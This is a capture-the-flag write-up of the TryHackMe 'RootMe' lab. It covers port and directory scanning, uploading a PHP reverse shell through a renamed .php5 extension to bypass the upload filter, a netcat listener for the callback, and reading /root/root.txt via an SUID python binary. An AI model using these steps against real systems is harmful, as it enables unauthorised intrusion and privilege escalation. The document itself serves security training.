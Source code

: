 # thm-RootMe
 
https://tryhackme.com/room/rrootme

`IP = 10.10.239.220`

## Scan the machine, how many ports are open?

```bash
└─$ nmap -A -oA nmap/ 10.10.239.220            

Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 10:59 EDT
Nmap scan report for 10.10.239.220 (10.10.239.220)
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.70 seconds

```

## What version of Apache is running?

From nmap
`Apache/2.4.29 (Ubuntu)`

## What service is running on port 22?

From nmap
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
```


## Find directories on the web server using the GoBuster tool.

```bash
gobuster dir -u 10.10.239.220 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee ./gobuster/scan.log
```

## What is the hidden directory?

From Gobuster
`/panel/`

## Find a form to upload and get a reverse shell, and find the flag.

I can use the /panel site to upload a script.
Lets try uploading a php reverse shell.

```bash
nc -nlvp 4444    #Attacker
```

Then Upload the file.

When uploadinf trhety I get
`PHP não é permitido!`
Lets try and change the extension maybe

`mv php-reverse-shell.php rev`

That worked - but no callback - maybe it needs to be in a php format. Lets try php5

`mv rev rev.php5`

The access `http://10.10.152.34/uploads/rev.php5` to detonate it.

And I have the shell!

Once conntected I find `THM{y0u_g0t_a_sh3ll}`



## Search for files with SUID permission, which file is weird?

Lets Enumerate using pwncat
```bash
local) pwncat$ run enumerate
```

```
  - file read as root via /usr/bin/python (SUID) from root (linux.enumerate.file.suid)
```

## Find a form to escalate your privileges.

Lets see if we can use pwncat for this..

```bash
(local) pwncat$ escalate run
[12:10:19] 10.10.152.34:39676: error: no working escalation paths found for root     
```

Looks like there is nothing pwncat can do. 
Lets try ourselves...


```bash
python -c 'print(open("/root/root.txt").read())'
```

This reads us out the final flag :)



